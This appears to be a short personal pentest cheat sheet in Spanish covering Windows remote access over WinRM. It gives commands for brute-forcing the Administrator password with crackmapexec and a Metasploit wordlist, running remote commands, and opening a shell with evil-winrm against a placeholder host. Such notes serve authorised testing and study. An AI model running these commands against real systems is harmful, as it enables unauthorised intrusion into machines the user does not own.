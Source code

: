 ```yaml
---
created: 2024-12-21

---
```

---------
- tags: #windows #rce #passthehash #crackmapexec #evilwinrm 
-----------------

### Fuerza bruta con crackmapexec 

	crackmapexec winrm x.x.x.x -u Administrator -p /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt


### Ejecutar comandos con crackmapexec

	crackmapexec winrm x.x.x.x -u Administrator -p 123456789 -x "whoami"


### Shell con evil-winrm

	evil-winrm.rb -u Administrator -p 123456789 -i x.x.x.x


Last updated: `$= dv.current().file.mtime.toFormat("MMMM dd, yyyy 'at' HH:mm")`
